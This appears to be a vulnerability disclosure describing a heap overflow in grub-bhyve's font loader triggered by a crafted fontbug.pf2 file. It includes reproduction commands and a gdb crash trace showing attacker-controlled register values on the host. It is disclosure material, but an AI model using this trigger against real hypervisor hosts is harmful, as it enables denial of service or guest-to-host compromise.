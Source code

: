 When section->length is set to 0xFFFFFFFF, the size calculation for grub_malloc becomes 0 and jemalloc allocates a small buffer for this allocation request. When grub_file_read() tries to read 0xFFFFFFFF bytes from the font file, it results in a heap overflow. Moreover, grub_file_read() can read only until the end of font file and then returns. Thus, the heap overflow is controlled and does not end up as wild copy. In order to trigger the bug, use the attached grub.cfg and fontbug.pf2 files and reboot from the guest. 

```
root@guest:/boot/grub# rm grubenv
root@guest:/boot/grub# grub-editenv grubenv create
root@guest:/boot/grub# grub-editenv grubenv set run_fontbug=true
root@guest:/boot/grub# grub-editenv grubenv list
run_fontbug=true
```

The guest file system can also be mounted in host for debugging purpose like editing grub.cfg file in case something goes wrong and guest becomes unbootable

```
root@host:/vms/linux # mdconfig disk0.img 
md0
root@host:/vms/linux # fuse-ext2 -o rw+ /dev/md0s1 /mnt
root@host:/vms/linux # cd /mnt/boot/grub/
```
Below crash is noticed in the host

```
Reading symbols from grub-bhyve...done.
[New LWP 100159]
Core was generated by `/usr/local/sbin/grub-bhyve -c /dev/nmdm-linux.1A -m /vms/linux/device.map -M 512'.
Program terminated with signal SIGBUS, Bus error.
#0  0x0000000000454707 in grub_ext2_read_block (node=0x80331d168, fileblock=0xfc) at fs/ext2.c:392
392	  unsigned int blksz = EXT2_BLOCK_SIZE (data);
gdb-peda$ bt
#0  0x0000000000454707 in grub_ext2_read_block (node=0x80331d168, fileblock=0xfc) at fs/ext2.c:392
#1  0x0000000000459464 in grub_fshelp_read_file (disk=0x8033687c0, node=0x80331d168, read_hook=0x0, pos=0x400, len=0xffc00, 
    buf=0x80331d2b4 . . ., get_block=0x4546bc <grub_ext2_read_block>, filesize=0x100014, log2blocksize=0x3, blocks_start=0x0)
    at fs/fshelp.c:261
#2  0x0000000000454ee3 in grub_ext2_read_file (node=0x80331d168, read_hook=0x0, pos=0x400, len=0xffc00, buf=0x8032216b4 'A' <repeats 200 times>...) at fs/ext2.c:530
#3  0x00000000004558e3 in grub_ext2_read (file=0x803368740, buf=0x8032216b4 'A' <repeats 200 times>..., len=0xffc00) at fs/ext2.c:854
#4  0x000000000040c2b2 in grub_file_read (file=0x803368740, buf=0x8032216b4, len=0xffc00) at kern/file.c:158
#5  0x0000000000493822 in grub_bufio_read (file=0x803368800, buf=0x8032216b4 'A' <repeats 200 times>..., len=0xffc14) at io/bufio.c:146
#6  0x000000000040c2b2 in grub_file_read (file=0x803368800, buf=0x8032212c8, len=0x100000) at kern/file.c:158
#7  0x0000000000443bd2 in read_section_as_string (section=0x7fffffffe0c0) at font/font.c:387
#8  0x0000000000443fac in grub_font_load (filename=0x8033b28e0 "/boot/grub/fontbug.pf2") at font/font.c:548
#9  0x000000000044624b in loadfont_command (cmd=0x80322e400, argc=0x0, args=0x8033b28d0) at font/font_cmd.c:35
#10 0x00000000004b41a3 in grub_script_execute_cmdline (cmd=0x823c27788) at script/execute.c:927
. . .

gdb-peda$ x/i $rip
=> 0x454707 <grub_ext2_read_block+75>:	mov    eax,DWORD PTR [rax+0x18]
gdb-peda$ info registers 
rax            0x4141414141414141  0x4141414141414141
rbx            0x7fffffffe9c0      0x7fffffffe9c0
rcx            0x4546bc            0x4546bc
rdx            0xfc                0xfc
```